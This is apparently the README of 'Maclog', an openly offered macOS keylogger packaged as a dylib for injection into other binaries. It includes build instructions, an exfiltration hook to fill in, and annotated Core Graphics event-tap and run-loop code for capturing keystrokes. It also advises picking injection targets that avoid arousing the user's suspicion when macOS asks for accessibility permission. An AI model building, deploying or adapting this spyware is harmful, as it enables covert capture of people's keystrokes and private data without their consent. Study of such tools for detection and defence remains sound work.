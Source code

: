 # Maclog

A lightweight keylogger for macOS that abuses deprecated frameworks Apple's stuck with.

### Prerequisites

A system running macOS version >= 10.4, the Apple LLVM compiler, and GNU Make.

### Building

Enter the project's top-level directory and compile the project with Make:

```
$ make
```

This will compile the following binaries:

* `./lib/libmaclog.dylib`
	- Maclog is compiled as dynamic library that's designed to be injected into Mach-O binaries. Therefore, in order to use Maclog effectively, you need to know how to write stager code and shellcode to facillitate dylib injection.
* `./bin/maclog-test`
	- A sample executable that links the Maclog dynamic library. If you haven't hooked in your own data exfiltration solution, running this executable will output UTF-8 representations of keystrokes to standard output.

### Configuring Data Exfiltration

The `./src/maclog.c` file contains the following function to allow you to hook in your chosen data exfiltration solution:

```
/*
 * A function that allows you to hook in your chosen data exfiltration soultion.
 */
static void exfil_hook(char *keystroke, size_t size)
{

	// Replace this code
	printf("%s\n", keystroke);
}
```

By default, Maclog will log keystrokes to standard output.

## How it Works

When you register an event tap, you supply a bit mask that identifies the set of events to be observed. To create the bit mask, use the CGEventMaskBit macro to convert each constant into an event mask and then OR the individual masks together.

```
CGEventMask trackedEvents = CGEventMaskBit(kCGEventKeyDown) | CGEventMaskBit(kCGEventFlagsChanged);
```

Before going further you should have a basic understanding of mach ports and how they are used by macOS. Mach ports are a kernel-provided inter-process communication (IPC) mechanism that's used extensively throughout macOS. They are unidirectional kernel-protected channels and can have multiple send-points but only one receive point. A Core Foundation mach port represents the new event tap, or NULL if the event tap could not be created. We pass a callback function, `log_keystrokes`, to the event tap, which contains logic to capture key press events and pass UTF-8 characters associated with those events to your data exfiltration solution of choice.

```
CFMachPortRef eventTap = CGEventTapCreate(kCGSessionEventTap,
					  kCGHeadInsertEventTap,
					  kCGEventTapOptionDefault,
					  trackedEvents,
					  log_keystroke,
					  NULL);
```

The newly created event tap will immediately register events if the target binary already has accessibility permissions. If it doesn't have permissions, macOS will prompt the user to enable permissions for the binary. Therefore, when considering binaries for injection, you want to select a target that either already has accessibility permissions, or one that is less likely to arouse suspicion when users are prompted.
<br>

Now that we have our event tap, we need to add it to our thread's run loop. CoreFoundation provides run loop objects that allow you to configure and manage a thread's run loop. There is a lot of documentation out there on how run loops work in macOS, but this explanation will only cover how they are used in context of this code. Getting into the details is beyond the scope of this explanation, but I encourage you to look that up on your own, they are not very difficult to understand.
<br>

The event tap can be passed to the `CFMachPortCreateRunLoopSource` function to generate a `CFRunLoopSource` object, which is is an abstraction of an input source (the event tap) that can be put into a run loop. A `CFRunLoopSourceRef` structure must be used to reference the `CFRunLoopSource` object.

```
CFRunLoopSourceRef runloop_src = CFMachPortCreateRunLoopSource(kCFAllocatorDefault,
							       event_tap,
							       0);
```

Next, we will take that `CFRunLoopSource` object and add it to a run loop mode. A run loop mode is a collection of input sources and timers to be monitored and a collection of run loop observers to be notified. When a run loop is run, a mode in which it is run is specified, either explicitly or implicitly. During a pass of the run loop, only input sources, such as a mouse click or a keystroke, associated with that mode are allowed to deliver their events. If an input source is not allowed to deliver its event during the current pass, it will wait for a subsequent pass of the run loop to enter a mode in which delivery is permitted.
<br>

Modes are used to filter out events from unwanted input sources during a particular pass through a run loop. In our case we are not interested in filtering out events but instead in making sure that events tapped by our input source, a `CFRunLoopSource` object, can be delivered to our run loop regardless of the mode it is currently in. We add our input source to the run loop with the `CFRunLoopAddSource` function and pass it the constant `CFRunLoopCommonModes`, a collection of commonly used modes defined by the CoreFoundation framework, to ensure that our input source will deliver keystroke events in these modes.

```
CFRunLoopAddSource(CFRunLoopGetCurrent(),
		   runloop_src,
		   kCFRunLoopCommonModes);
```

The CFRunLoopRun function runs the run loop we previously configured indefinitely in our processes's current thread. The run loop may be stopped with a call to the CFRunLoopStop function or if the process is ended/killed.

```
CFRunLoopRun();
```

It is important to note that Maclog cannot log keystrokes in secure text fields, like those used for password input, that are owned by other processes. In macOS, the AppKit framework provides an `NSSecureTextField` class, which inherits from the `NSTextField` class. Apple being Apple, the documentation on how this works is sparse. I assume however that it provides a similar functionality to the `EnableSecureEventInput` function provided by the deprecated Carbon framework, which essentially creates a secure communication channel where keyboard events are delivered to and only to the process associated with the textfield identified for secure input entry. Any attempt by another process (i.e. our target binary) to access these events will be blocked. This is not a security feature specific to macOS; I do not know of an operating system that does not employ something like this.
<br>

While this explanation does not cover everything in the code, it does explain the core concepts behind it.

## Built With

* [CoreFoundation](https://developer.apple.com/documentation/corefoundation) - Framework that provides fundamental software services useful to application services, application environments, and to applications themselves.
* [CoreGraphics](https://developer.apple.com/documentation/applicationservices) - Framework based on the Quartz advanced drawing engine.
* [Carbon](https://developer.apple.com/library/content/navigation/index.html?filter=carbon) - Framework that provides TIS functions to translate key codes into Unicode characters (Carbon is depreciated and Apple no longer provides most of the documentation for it, so going through its header files and some googling is necessary).


